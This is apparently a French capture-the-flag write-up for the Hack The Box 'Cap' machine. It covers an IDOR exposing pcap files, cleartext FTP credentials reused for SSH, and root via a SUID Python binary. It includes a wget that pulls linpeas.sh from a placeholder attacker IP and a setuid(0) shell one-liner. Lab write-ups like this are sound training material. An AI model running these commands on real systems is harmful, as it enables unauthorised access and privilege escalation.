



# Cap (HTB - Retired - Easy)
**Date :** 07/05/2025  
**Catégorie :** IDOR, FTP credentials, SUID Python PrivEsc  
**Difficulté :** Easy  
**Objectif :** Obtenir les flags `user.txt` et `root.txt`

---

## Nmap

```bash
nmap -Pn -sV nmap.txt 10.10.11.XXX
```



Résultat :
21/tcp - FTP

22/tcp - SSH

80/tcp - HTTP

## Enum Web
Sur le port 80, on accède à un site affichant un dashboard, avec plusieurs onglets, dont un nommé Security Snapshot.
L’URL lors de la consultation d’un rapport ressemble à :
http://10.10.11.XXX/data/0

## IDOR (Insecure Direct Object Reference)
Changement de la valeur dans l’URL (/data/1, /data/2, etc.) permet de télécharger différents fichiers .pcap.
On télécharge ceux qui semblent intéressants et on les ouvre avec Wireshark.
## Analyse de fichier PCAP
Dans le fichier correspondant à /data/0, on observe des transferts FTP en clair, et on identifie :
Nom d’utilisateur FTP


Mot de passe FTP


(Le tout visible dans les paquets FTP Request et FTP Response.)



## Accès FTP & SSH
Connexion au serveur FTP :
```bash
ftp 10.10.11.XXX
```

Les identifiants FTP fonctionnent également pour se connecter en SSH :
```bash
ssh user@10.10.11.XXX
```
Flag user.txt trouvé dans le répertoire home.





## Escalade de privilèges
Upload de linpeas.sh pour l’analyse locale :
### Sur la machine attaquante
```bash
python3 -m http.server 8000
```

### Sur la cible
```bash
wget http://<attacker_ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## SUID Python trouvé :
```bash
-rwsr-xr-x 1 root root 3700736 Jul  7  2021 /usr/bin/python3.8
```

## Exploitation SUID Python
Lancement de Python avec élévation des privilèges :
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

On obtient un shell root, puis :
```bash
cat /root/root.txt
```

## 🛠️ Résumé des étapes

| Étape                | Technique                          |
|----------------------|------------------------------------|
| Initial Access       | IDOR via `/data/<id>`              |
| Credential Access    | Analyse de `.pcap` → FTP creds     |
| Lateral Movement     | Reuse FTP creds → SSH              |
| Privilege Escalation | SUID Python 3.8 → root shell       |
